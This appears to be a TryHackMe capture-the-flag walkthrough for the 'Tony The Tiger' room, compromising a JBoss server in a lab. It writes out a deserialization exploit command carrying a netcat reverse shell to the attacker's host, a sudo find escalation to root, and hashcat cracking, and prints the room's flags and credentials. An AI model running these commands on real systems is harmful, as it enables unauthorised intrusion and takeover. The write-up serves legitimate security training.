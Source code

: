 # Matheus Jesus 16-04-2020

## Try Hack Me - [Tony The Tiger](https://tryhackme.com/room/tonythetiger)

### IP 10.10.210.254

#### NMap results can be found on the file

80 - blog
8080 Jboss
22 SSH

#### Blog

On blog, download the [image](https://i.imgur.com/be2sOV9.jpg)

```sh
strings wtf2.jpg
```

It will display the flag THM{Tony_Sure_Loves_Frosted_Flakes}

#### Exploiting

After downloading the exploit, run command to start a reverse shell

```sh
python exploit.py --ysoserial-path ysoserial.jar --proto http 10.10.210.254:8080 "nc 10.9.5.234 -e /bin/sh 8888"
```

open shell with

```sh
nc -lvnp 8888; python -c 'import pty; pty.spawn("/bin/bash")' #Spawns a TTY terminal
```

There is a note under /home/jboss/note

it says jboss:likeaboss

```sh
ssh jboss@10.10.210.254
likeaboss
```

hidden file on /home/jboss -> .jboss revealed the flag

THM{50c10ad46b5793704601ecdad865eb06}

#### Rooting

scp linpeas.sh over to the host

the user jboss is able to run /usr/bin/find as root

```sh
sudo find /etc/password -exec /bin/sh \;
```

ROOT  [SUID](https://www.andreafortuna.org/2018/05/16/exploiting-sudo-for-linux-privilege-escalation/)

/root/root.txt
QkM3N0FDMDcyRUUzMEUzNzYwODA2ODY0RTIzNEM3Q0Y==

Seems to be under base64 encoding

Decoded -> bc77ac072ee30e3760806864e234c7cf

hashid bc77ac072ee30e3760806864e234c7cf

MD5

```sh
hashcat -a 0 -m 0 BC77AC072EE30E3760806864E234C7CF /usr/share/wordlists/rockyou.txt --force
```

bc77ac072ee30e3760806864e234c7cf:zxcvbnm123456789
